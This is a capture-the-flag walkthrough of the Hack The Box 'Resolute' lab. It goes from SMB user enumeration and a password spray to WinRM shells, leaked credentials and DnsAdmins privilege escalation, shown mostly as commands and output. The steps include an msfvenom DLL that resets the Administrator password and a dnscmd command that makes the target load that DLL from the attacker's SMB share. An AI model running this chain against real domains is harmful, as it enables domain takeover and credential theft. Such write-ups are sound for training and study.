


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---

# Resolute

## Summary

[Resolute](https://app.hackthebox.com/machines/220) is an <mark style="color:yellow;">medium-rated</mark> box that includes common enumeration methods and Active Directory (AD) attacks. Initially, non-active credentials are obtained via **SMB enumeration** which lead to compromise an active domain user via **password spraying**. After the **initial foothold** has been established, **system enumeration** reveals another user's credentials which provides us the opportunity to **move laterally.** This new user is member of the `DnsAdmins` group, and by exploiting this membership we are able to **elevate our privileges** and **fully compromise the domain**.

<table><thead><tr><th width="87" align="right">Step</th><th width="195">Action</th><th width="207">Tool</th><th width="319">Achieved</th></tr></thead><tbody><tr><td align="right">1</td><td>SMB Enumeration</td><td><a href="../../tools/active-directory/netexec-cme.md">NetExec</a></td><td>Inactive credentials</td></tr><tr><td align="right">2</td><td>Password Spray</td><td><a href="../../tools/active-directory/netexec-cme.md">NetExec</a></td><td>Initial foothold</td></tr><tr><td align="right">3</td><td>System Enumeration</td><td><a data-footnote-ref href="#user-content-fn-1">LOTL</a></td><td>Lateral movement</td></tr><tr><td align="right">4</td><td>Domain Enumeration</td><td> <a href="https://www.rapid7.com/blog/post/2011/05/24/introducing-msfvenom/">msfvenom</a>, <a href="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd">dnscmd</a></td><td><a data-footnote-ref href="#user-content-fn-2">EoP</a> &#x26; Domain Compromise</td></tr></tbody></table>

## Initial Foothold

Let's start with TCP all-ports scan:


```bash
$ sudo nmap 10.10.10.169 -T4 -A -open -p-

PORT      STATE SERVICE      VERSION
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-03-18 15:13:17Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49678/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49679/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49708/tcp open  msrpc        Microsoft Windows RPC

Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h26m55s, deviation: 4h02m32s, median: 6m53s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2024-03-18T08:14:21-07:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-03-18T15:14:19
|_  start_date: 2024-03-18T15:11:25
```


Some things to note:

1. This host is a Domain Controller (DC) as it has services such as Kerberos and LDAP.
2. WinRM is available on port `5985`.
3. The FQDN is `RESOLUTE.MEGABANK.LOCAL`. -> add this info to `/etc/hosts`.

### SMB Enumeration

We can first check if we can gather domain information via a SMB NULL session.


```bash
# enumerate domain users via SMB NULL session
$ nxc smb 10.10.10.169 --users --log nxc_users.lst
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\:
SMB         10.10.10.169    445    RESOLUTE         [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.10.169    445    RESOLUTE         [+] Enumerated domain user(s)
SMB         10.10.10.169    445    RESOLUTE         megabank.local\Administrator                  Built-in account for administering the computer/domain
SMB         10.10.10.169    445    RESOLUTE         megabank.local\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.10.169    445    RESOLUTE         megabank.local\krbtgt                         Key Distribution Center Service Account
SMB         10.10.10.169    445    RESOLUTE         megabank.local\DefaultAccount                 A user account managed by the system.
SMB         10.10.10.169    445    RESOLUTE         megabank.local\ryan
SMB         10.10.10.169    445    RESOLUTE         megabank.local\marko                          Account created. Password set to Welcome123!
SMB         10.10.10.169    445    RESOLUTE         megabank.local\sunita
SMB         10.10.10.169    445    RESOLUTE         megabank.local\abigail
SMB         10.10.10.169    445    RESOLUTE         megabank.local\marcus
SMB         10.10.10.169    445    RESOLUTE         megabank.local\sally
SMB         10.10.10.169    445    RESOLUTE         megabank.local\fred
SMB         10.10.10.169    445    RESOLUTE         megabank.local\angela
SMB         10.10.10.169    445    RESOLUTE         megabank.local\felicia
SMB         10.10.10.169    445    RESOLUTE         megabank.local\gustavo
SMB         10.10.10.169    445    RESOLUTE         megabank.local\ulf
SMB         10.10.10.169    445    RESOLUTE         megabank.local\stevie
SMB         10.10.10.169    445    RESOLUTE         megabank.local\claire
SMB         10.10.10.169    445    RESOLUTE         megabank.local\paulo
SMB         10.10.10.169    445    RESOLUTE         megabank.local\steve
SMB         10.10.10.169    445    RESOLUTE         megabank.local\annette
SMB         10.10.10.169    445    RESOLUTE         megabank.local\annika
SMB         10.10.10.169    445    RESOLUTE         megabank.local\per
SMB         10.10.10.169    445    RESOLUTE         megabank.local\claude
SMB         10.10.10.169    445    RESOLUTE         megabank.local\melanie
SMB         10.10.10.169    445    RESOLUTE         megabank.local\zach
SMB         10.10.10.169    445    RESOLUTE         megabank.local\simon
SMB         10.10.10.169    445    RESOLUTE         megabank.local\naoki

# create a user list
$ cat nxc_users.lst | cut -d"\\" -f2 | cut -d" " -f1 > domain_users.txt
```


The credentials for the account `marko` are revealed! Let's confirm that they are valid.


```bash
$ nxc smb 10.10.10.169 -u marko -p marko_pass
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marko:******** STATUS_LOGON_FAILURE
```


### Password Spraying

It seems like `marko` is security-aware and changed his account's weak password. This password seems like something that is set on account creation and is meant to be changed by the users. We can check if everyone is as security-aware as `marko` via a **password spray attack**.&#x20;

Before doing that, let's find out the password policy, and more specifically, the `Account Lockout Threshold` setting, so we can adapt our attack accordingly.


```bash
# getting the password policy
$ nxc smb 10.10.10.169 -u '' -p '' --pass-pol
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\:
SMB         10.10.10.169    445    RESOLUTE         [+] Dumping password info for domain: MEGABANK
SMB         10.10.10.169    445    RESOLUTE         Minimum password length: 7
SMB         10.10.10.169    445    RESOLUTE         Password history length: 24
SMB         10.10.10.169    445    RESOLUTE         Maximum password age: Not Set
SMB         10.10.10.169    445    RESOLUTE
SMB         10.10.10.169    445    RESOLUTE         Password Complexity Flags: 000000
SMB         10.10.10.169    445    RESOLUTE             Domain Refuse Password Change: 0
SMB         10.10.10.169    445    RESOLUTE             Domain Password Store Cleartext: 0
SMB         10.10.10.169    445    RESOLUTE             Domain Password Lockout Admins: 0
SMB         10.10.10.169    445    RESOLUTE             Domain Password No Clear Change: 0
SMB         10.10.10.169    445    RESOLUTE             Domain Password No Anon Change: 0
SMB         10.10.10.169    445    RESOLUTE             Domain Password Complex: 0
SMB         10.10.10.169    445    RESOLUTE
SMB         10.10.10.169    445    RESOLUTE         Minimum password age: 1 day 4 minutes
SMB         10.10.10.169    445    RESOLUTE         Reset Account Lockout Counter: 30 minutes
SMB         10.10.10.169    445    RESOLUTE         Locked Account Duration: 30 minutes
SMB         10.10.10.169    445    RESOLUTE         Account Lockout Threshold: None
SMB         10.10.10.169    445    RESOLUTE         Forced Log off Time: Not Set

# performing a password spray
$ nxc smb 10.10.10.169 -u domain_users.txt -p marko_pass | grep +
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:********
```


It's seem that `melanie` is not like `marko`! We know that WinRM is available, so we can now test if this user has WinRM access.


```bash
$ nxc winrm 10.10.10.169 -u melanie -p marko_pass
SMB         10.10.10.169    445    RESOLUTE         [*] Windows 10 / Server 2016 Build 14393 (name:RESOLUTE) (domain:megabank.local)
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\melanie:******** (Pwn3d!)
```


Next, let's obtain our **initial foothold** and grab the `user.txt` file.


```bash
$ evil-winrm -i 10.10.10.169 -u melanie -p $(cat marko_pass)

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\melanie\Documents> type ..\desktop\user.txt
2cf<REDACTED>029
```


## Lateral Movement

The most efficient way to move forward is to collect and analyze domain information using [BloodHound](../../tools/active-directory/hounds.md).


```bash
# upload binary to the target
*Evil-WinRM* PS C:\Users\melanie\Documents> upload SharpHound.exe

Info: Uploading /home/kali/htb/resolute/SharpHound.exe to C:\Users\melanie\Documents\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!
# execute binary and collect data
*Evil-WinRM* PS C:\Users\melanie\Documents> .\SharpHound.exe -c all
# download the output to the attack host
*Evil-WinRM* PS C:\Users\melanie\Documents> download 20240318090426_BloodHound.zip

Info: Downloading C:\Users\melanie\Documents\20240318090426_BloodHound.zip to 20240318090426_BloodHound.zip

Info: Download successful!
```


By analyzing the data, some interesting paths pop out. If we somehow get `SYSTEM` access to this box we will be able to fully compromise the domain via a DCSync attack (Figure 1).

<figure><figcaption><p>Figure 1: BloodHound let us know that the RESOLUTE host has DCSync rights over the domain.</p></figcaption></figure>

Another interesting avenue is through `ryan` that is a member of the `DnsAdmins` group which can be potentially exploited (Figure 2).

<figure><figcaption><p>Figure 2: The user RYAN is a member of DNSADMINS group.</p></figcaption></figure>

Unfortunately, we neither have a way to get `SYSTEM` access on the `RESOLUTE` host or compromise the `ryan` account. By enumerating the host a hidden directory is found that contains `ryan`'s cleartext password!


```bash
# list hidden files
*Evil-WinRM* PS C:\> dir -force

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
<SNIP>
d--h--        12/3/2019   6:32 AM                PSTranscripts
<SNIP

*Evil-WinRM* PS C:\PSTranscripts> dir -force

    Directory: C:\PSTranscripts

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--h--        12/3/2019   6:45 AM                20191203

*Evil-WinRM* PS C:\PSTranscripts> cd 20191203
*Evil-WinRM* PS C:\PSTranscripts\20191203> dir -force

    Directory: C:\PSTranscripts\20191203

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt

*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
<SNIP>
+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
<SNIP>
```


Let's validate `ryan`'s credentials and log into the box.


```bash
$ nxc winrm 10.10.10.169 -u ryan -p ryan_pass
SMB         10.10.10.169    445    RESOLUTE         [*] Windows 10 / Server 2016 Build 14393 (name:RESOLUTE) (domain:megabank.local)
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\ryan:******** (Pwn3d!)

$ evil-winrm -i 10.10.10.169 -u 'ryan' -p $(cat ryan_pass)

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
megabank\ryan
```


## Elevation of Privileges

A note is found on `ryan`'s desktop.


```bash
*Evil-WinRM* PS C:\Users\ryan> type desktop\note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```


As we already know,  this user is a member of the `DnsAdmins` group. This can be exploited by specifying a plugin DLL that can be loaded upon (re)starting the DNS service. For example, we can leverage this fact by creating a payload that changes that `Administrator`'s password.


```bash
# generating the payload
$ sudo msfvenom -p windows/x64/exec cmd='net user administrator Password123! /domain' -f dll > da.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 311 bytes
```


> _A reverse shell payload could also be used. Passing any payload this way crashes the DNS server as it never really starts. More information on how to avoid that by executing the payload as a thread_ [_here_](https://youtu.be/8KJebvmd1Fk?t=3034)_._

Now we need to make the payload accessible for the target.

```bash
# starting an SMB server
$ impacket-smbserver -smb2support share ./
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Next, we will set the target's remote DLL path into the Windows Registry ([_command_](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/)):

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># setting the Windows Registry remote DLL path
</strong><strong>*Evil-WinRM* PS C:\Users\ryan> dnscmd.exe /config /serverlevelplugindll \\10.10.14.3\share\da.dll
</strong>
Registry property serverlevelplugindll successfully reset.
Command completed successfully.
</code></pre>

For this to be picked up, we need to restart the DNS service.

```bash
*Evil-WinRM* PS C:\Users\ryan> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
*Evil-WinRM* PS C:\Users\ryan> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1924
        FLAGS              :
```

Looking back to our SMB server.

```bash
$ impacket-smbserver -smb2support share ./
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.169,50282)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:aaaaaaaaaaaaaaaa:85653f0136e179a68948a47c15c1b882:0101000000000000000456845d79da0159f5ac051abe9d80000000000100100049007a0063007000470057004b0065000300100049007a0063007000470057004b00650002001000440076004400410075006a0069004d0004001000440076004400410075006a0069004d0007000800000456845d79da0106000400020000000800300030000000000000000000000000400000b9643995525e3ddfc8fec193ac82610145ec78b328ded3e7412306348c1dbad70a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320035000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:share)
[*] Closing down connection (10.10.10.169,50282)
[*] Remaining connections []
```

Remember that the `note.txt` file informed us that changes on this host are reverted every minute! So instead of validating the credentials or logging as `Administrator`, we can directly grab the `root.txt` flag 🚩!


```bash
$ nxc smb 10.10.10.169 -u administrator -p admin_pass -x 'type c:\users\administrator\desktop\root.txt'
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\administrator:******** (Pwn3d!)
SMB         10.10.10.169    445    RESOLUTE         [+] Executed command via wmiexec
SMB         10.10.10.169    445    RESOLUTE         dca<REDACTED>6d5
```


## Resources




A great article explaining how to escalate privileges exploiting DnsAdmins.




[^1]: Living off The Land

[^2]: Elevation of Privileges
